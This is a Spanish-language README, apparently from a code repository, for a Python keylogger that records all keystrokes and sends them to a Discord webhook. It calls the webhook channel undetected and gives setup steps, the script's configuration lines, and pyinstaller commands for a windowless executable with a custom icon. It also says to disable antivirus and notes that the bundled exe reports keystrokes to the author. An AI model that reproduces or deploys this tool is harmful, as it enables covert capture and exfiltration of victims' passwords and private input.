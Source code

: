 <p align="Left">
  <a href="" rel="noopener">
 <img width=650px height=200px src="https://imgur.com/inEdzeP.png" alt="Project logo"></a>
</p>

<h1 align="left"> Keylogger que reporta a Discord </h1>


Este script de python capturara todas las teclas apretadas durante una ventana de tiempo predefinida y las reportara a un servidor de Discord por medio de Webhooks. a diferencia de los metodos tradicionales como "Guardar en un txt" o "Enviar a un email", este metodo permanece indetectado ya que los request de webhook son considerados trafico normal de Discord.


## Deployment

- Tener Python instalado en su maquina, descargar el lenguaje desde [aca](https://www.python.org/downloads/).
- Crear una cuenta de discord, como hacerlo [aca](https://youtu.be/dinlzJlzIB4)

## Instalar librerias requeridas
```
python -m pip install -r requirements.txt
```

## Crear un servidor de Discord

Puedes usar [este](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) articulo para ver como hacerlo.

## Crear un Discord Webhook

Ingresa a la configuracion del servidor y selecciona Intergrations >>  Webhooks y crear un nuevo Webhook, se lo puede customizar y darle un nombre y un icono. Es necesario copiar al URL del webhook.

![screenshot1](https://imgur.com/CuLnE5c.png)

![screenshot2](https://imgur.com/24A58iM.png)

![screenshot3](https://i.imgur.com/i084ESb.png)

## Editar keylogger.py

Ahora que poseemos el webhook podemos editar el script en python. Debemos añadir la url al archivo y asegurarnos de colocar el timeframe en el cual deseamos que el kelogger haga los reportes. 

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = "TIEMPO_EN_SEGUNDOS_ACA" # Este sin comillas 
WEBHOOK = "URL_DEL_WEBHOOK_ACA"
```

## Ejecutar el script

Una vez hecho eso, podremos ejecutar el script correctamente.
Para ejecutar el script solo debemos colocar esto en la terminal:
```
python keylogger.py
```
si todo sale bien deberiamos ver el reporte en discord despues de esperar el tiempo establecido.
![c2](https://imgur.com/MxKQE7n.png)

## Compilar el script

Para convertir el archivo en un ejecutable necesitaremos la libreria  pyinstaller que fue incluida en el archivo requirements.txt.
Debemos abrir una terminal en el directorio donde se encuentre el archivo.
```
pyinstaller keylogger.py --onefile --noconsole
```
Por si desea un icono custom para el exe.
```
pyinstaller keylogger.py --onefile --noconsole --icon=ejemplo.ico
```

# Instalador

Si se desea crear un instalador para el programa podemos seguir [este](https://www.youtube.com/watch?v=cVN62zhiNH0&t=519s) tutorial


# Notas
- (Es necesario desactivar el windows defender/antivirus para probrar el programa)
- (El exe incluido en este repositorio posee un webhook propio por lo que si lo ejecutan yo recibire los reportes)


